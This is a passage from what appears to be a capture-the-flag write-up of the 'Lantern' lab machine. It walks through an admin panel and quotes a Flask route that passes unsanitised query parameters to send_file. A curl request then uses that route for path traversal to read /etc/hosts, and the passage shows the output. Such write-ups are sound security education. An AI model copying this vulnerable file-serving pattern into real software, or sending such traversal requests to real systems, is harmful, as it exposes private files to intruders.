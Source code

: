 On the left there are links to “Files”, “Upload content”, “Health check”, “Logs”, and “Uploaded resumes”. There’s also a “Choose Modeule” section, and some charts on the right side (these are static and meaningless).

The search bar in the middle offers options when I start typing:

![image-20240821152408437](/img/image-20240821152408437.png)

Selecting one and hitting “Search” will load one of the same five modules linked to on the left.

If I enter something that isn’t one of the five, there’s an error message:

![image-20240821152502969](/img/image-20240821152502969.png)

So each of those must be a `.dll` file in `/opt/components`.

The system returns a different message if I try directory traversal:

![image-20240821154142609](/img/image-20240821154142609.png)

It seems to require that the module be in `/opt/components`.

#### Files / FileTree

The files component shows a tree of files in `/var/www/sites/lantern.htb`. Clicking on one of these will show it in a box to the right:

![image-20240821152640763](/img/image-20240821152640763.png)

I’ll note the main site is a Flask application as I suspected [above](/2024/11/30/htb-lantern.html#tech-stack). In the `app.py` source, I’ll note the three routes identified above, as well as one more:

```

@app.route('/PrivacyAndPolicy')
def sendPolicyAgreement():
    lang = request.args.get('lang')
    file_ext = request.args.get('ext')
    try:
            return send_file(f'/var/www/sites/localisation/{lang}.{file_ext}') 
    except: 
            return send_file(f'/var/www/sites/localisation/default/policy.pdf', 'application/pdf')

```

That’s a very unsafe file fetch, which I should be able to abuse to read arbitrary files from the main site.

```

oxdf@hacky$ curl 'http://lantern.htb/PrivacyAndPolicy?lang=.&ext=/../../../etc/hosts'
127.0.0.1 localhost lantern.htb
127.0.1.1 lantern

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```
